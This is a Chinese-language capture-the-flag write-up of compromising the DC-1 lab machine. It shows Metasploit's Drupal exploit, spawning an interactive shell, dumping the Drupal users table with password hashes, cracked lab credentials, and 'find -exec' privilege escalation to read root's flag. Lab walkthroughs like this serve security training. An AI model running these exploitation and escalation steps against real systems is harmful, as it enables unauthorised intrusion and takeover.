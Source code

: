 # DC1靶场实战

> 将靶场网络模式改为桥接模式

- 使用御剑扫描端口
- ![image-20240915190420050](./assets/image-20240915190420050.png)

- 这里可以确定靶场ip为`192.168.157.152`开放了`22`和`80`端口
- 访问一下80端口
- ![image-20240915190624714](./assets/image-20240915190624714.png)

- 这里发现需要`登录`,我们尝试爆破web目录看看

<img src="./assets/image-20240915191016278.png" alt="image-20240915191016278" style="zoom: 25%;" />

- 这里扫到`/user/`和`/robot.txt`两个目录,访问来看一下
- ![image-20240915191144197](./assets/image-20240915191144197.png)

- 注册一个账户试试,发现不行,尝试爆破也爆破不出来

- 使用`msfconsole`

- ```cmd
  msf6 > search drupal
  ```

  

![image-20240915204022259](./assets/image-20240915204022259.png)

- ```cmd
  #这里测试发现只有2可以
  msf6 > use 2
  msf6 > set rhost 192.168.157.152
  msf6 > run
  
  #如果成功在,输入
  meterpreter > shell
  ```

  ![image-20240915204208372](./assets/image-20240915204208372.png)

![image-20240915204357038](./assets/image-20240915204357038.png)

```cmd
//看看flag1.txt有什么信息
cat flag1.txt
```

![image-20240915204500781](./assets/image-20240915204500781.png)

- 大致意思是让我去找配置文件看看,一个一个的翻,最终在`sites`下的`default`下找到部分php文件,看看

![image-20240915204723801](./assets/image-20240915204723801.png)

![image-20240915205108359](./assets/image-20240915205108359.png)

```cmd
#为了方便查看数据,使用工具
python -c "import pty;pty.spawn('/bin/bash')"
```

![image-20240915210149822](./assets/image-20240915210149822.png)

```cmd
#连接数据库
mysql -u dbuser -p

+--------------------+
| Database           |
+--------------------+
| information_schema |
| drupaldb           |
+--------------------+

+-----------------------------+
| Tables_in_drupaldb          |
+-----------------------------+
| actions                     |
| authmap                     |
| batch                       |
| block                       |
| block_custom                |
| block_node_type             |
| block_role                  |
| blocked_ips                 |
| cache                       |
| cache_block                 |
| cache_bootstrap             |
| cache_field                 |
| cache_filter                |
| cache_form                  |
| cache_image                 |
| cache_menu                  |
| cache_page                  |
| cache_path                  |
| cache_update                |
| cache_views                 |
| cache_views_data            |
| comment                     |
| ctools_css_cache            |
| ctools_object_cache         |
| date_format_locale          |
| date_format_type            |
| date_formats                |
| field_config                |
| field_config_instance       |
| field_data_body             |
| field_data_comment_body     |
| field_data_field_image      |
| field_data_field_tags       |
| field_revision_body         |
| field_revision_comment_body |
| field_revision_field_image  |
| field_revision_field_tags   |
| file_managed                |
| file_usage                  |
| filter                      |
| filter_format               |
| flood                       |
| history                     |
| image_effects               |
| image_styles                |
| menu_custom                 |
| menu_links                  |
| menu_router                 |
| node                        |
| node_access                 |
| node_comment_statistics     |
| node_revision               |
| node_type                   |
| queue                       |
| rdf_mapping                 |
| registry                    |
| registry_file               |
| role                        |
| role_permission             |
| search_dataset              |
| search_index                |
| search_node_links           |
| search_total                |
| semaphore                   |
| sequences                   |
| sessions                    |
| shortcut_set                |
| shortcut_set_users          |
| system                      |
| taxonomy_index              |
| taxonomy_term_data          |
| taxonomy_term_hierarchy     |
| taxonomy_vocabulary         |
| url_alias                   |
| users                       |
| users_roles                 |
| variable                    |
| views_display               |
| views_view                  |
| watchdog                    |
+-----------------------------+

```

user表看起来太乱了,这是一个用户信息表的整理结果：

| UID  | Name       | Password                                                | Email             | Theme | Signature     | Signature Format | Created    | Access     | Login             | Status | Timezone            | Language | Picture | Init              | Data |
| ---- | ---------- | ------------------------------------------------------- | ----------------- | ----- | ------------- | ---------------- | ---------- | ---------- | ----------------- | ------ | ------------------- | -------- | ------- | ----------------- | ---- |
| 0    |            |                                                         |                   |       |               |                  |            | 0          | 0                 | 0      | NULL                | NULL     | 0       | NULL              | NULL |
| 1    | admin      | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR | admin@example.com |       |               |                  | 1550581826 | 1550583852 | admin@example.com | 1      | Australia/Melbourne | NULL     | 0       | admin@example.com | b:0; |
| 2    | Fred       | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg | fred@example.org  |       | filtered_html |                  | 1550581952 | 1550582225 | fred@example.org  | 1      | Australia/Melbourne | NULL     | 0       | fred@example.org  | b:0; |
| 3    | 2493770457 | $S$DnZNZu4yy0/kIUleNpqOnpbU0M0vZcaJW/OF3tRogcHZzWdefmpt | 2493770457@qq.com |       | filtered_html |                  | 1726427544 | 0          | 2493770457@qq.com | 0      | Australia/Melbourne | NULL     | 0       | 2493770457@qq.com | NULL |

这是表格的整理信息，包含了用户 ID、名称、密码、邮箱等信息。![image-20240915212959716](./assets/image-20240915212959716.png)



![image-20240915212845109](./assets/image-20240915212845109.png)

```cmd
//账号密码
admin 53cr3t
Fred MyPassword
```

![image-20240915214821230](./assets/image-20240915214821230.png)

```cmd
find flag1.txt -exec whoami /; //查看文件用户权限
find flag1.txt -exec '/bin/sh' /; //以创建者身份回弹shell
find / -name "*flag*"	//找到flag相关文件
```

![image-20240915220435553](./assets/image-20240915220435553.png)

![image-20240915220605453](./assets/image-20240915220605453.png)

```cmd
cat /home/flag4/flag4.txt
```

![image-20240915220709969](./assets/image-20240915220709969.png)

![image-20240915222332372](./assets/image-20240915222332372.png)

```cmd
cat /root/thefinalflag.txt
```

![image-20240915220742240](./assets/image-20240915220742240.png)